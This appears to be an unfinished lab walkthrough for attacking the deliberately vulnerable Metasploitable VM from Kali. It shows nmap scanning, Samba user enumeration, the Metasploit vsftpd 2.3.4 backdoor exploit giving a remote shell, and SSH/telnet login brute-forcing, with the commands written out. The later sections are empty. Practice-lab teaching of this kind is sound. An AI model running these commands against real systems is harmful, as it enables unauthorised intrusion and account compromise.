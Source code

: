 # 'Sploiting the 'Sploitable

Obviously, keep metasploitable and kali on a host-only virtual network. Don't let script kiddies have access to an intentionally exploitable machine!!

Enable a second network interface and update Kali. There's nothing wrong with skipping this step if you're staying on a host-only network, but it's good to be up to date. Once it's updated, be sure to switch your network adapter back to host-only mode.

## Let's get started!

Before starting anything, we want to find the IP of the machine we want to pwn. Let's use netdiscover

`netdiscover -r 192.168.56.100`
Now we've got a few IP addresses to scan.
Pinging `192.168.56.100` returns nothing, whereas `192.168.56.101` pings back! That gives us, with just 3 possible addresses to choose from, a good idea of our target's address.

Time to get more information on our target. We can use nmap to scan for TCP ports and the services they use.

`nmap -sV -O 192.168.56.101 -p1-65535`
- -sV to check open ports and version information
- -O to try to guess the operating system

[image]
Lots of open ports! This is obviously on purpose. This gives us great information-- we can see what software and version number applies to each port.

## Enumeration for fun and profit
Kali has a wonderful script called enum4linux. This asks the remote Samba service for a list of users.

`enum4linux -U 192.168.56.101`
- -U displays the users

With some grepping and cutting, we can easily isolate a list of users for use later. `enum4linux -U 192.168.56.101 | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > users.txt` Keep this file around for later!

### There's a few different ways you can get a shell:

## A) vsftpd (port 21)
Why not work in numerical port order. Boot up the metasploit console (`msfconsole`). With this, we can search for and execute various exploits. Let's look up vsftpd version 2.3.4

`search vsftpd 2.3.4`
[image]
Aha! An excellent backdoor exploit. We're given the namespace to the exploit, which we'll use to execute it.

`use exploit/unix/ftp/vsftpd_234_backdoor` (metasploit supports tab completion!)

Next, we'll set RHOST to our target's IP address. `set rhost 192.168.56.101`

and we'll set our RPORT to 21 to match the port that vsftpd is running on. `set rport 21`

Finally, we execute our attack with a simple `run`.

Press Enter, and you'll have gained access to a remote shell!
[image]

## B) ssh (port 22)
We can employ a similar method try and gain access to port 22. With metasploit still open, we'll use a common ssh login check scanner (https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/).

`use auxillary/scanner/ssh/ssh_login`

Again, set your rhosts and rport to the corresponding information. (`set rhosts 192.168.56.101` and `set rport 22`)

We'll be using our previous wordlist to attempt to brute force our way in. `set user_file users.txt`.

Additionally, we'll want to `set user_as_pass true`. This might save us some time if our target decided to use the same password as their username.

In order to watch the brute force in action, we'll need to `set verbose true`.

Now a quick `run` should enumerate through the users file, trying each username as its own password.
[image]

Hey, look a that! A few possible logins. Thankfully we didn't have to use a long wordlist.
[image]
Not bad!

## C) telnet (port 23)
`use auxiliary/scanner/telnet/telnet_login`
`set user_as_pass true`
`set user_file users.txt`
`set rhosts 192.168.56.101`
`set rport 23`
`run`

## D) smtp (port 25)


## Now what?
how do I know if I'm a sudoer
## Escalation!!
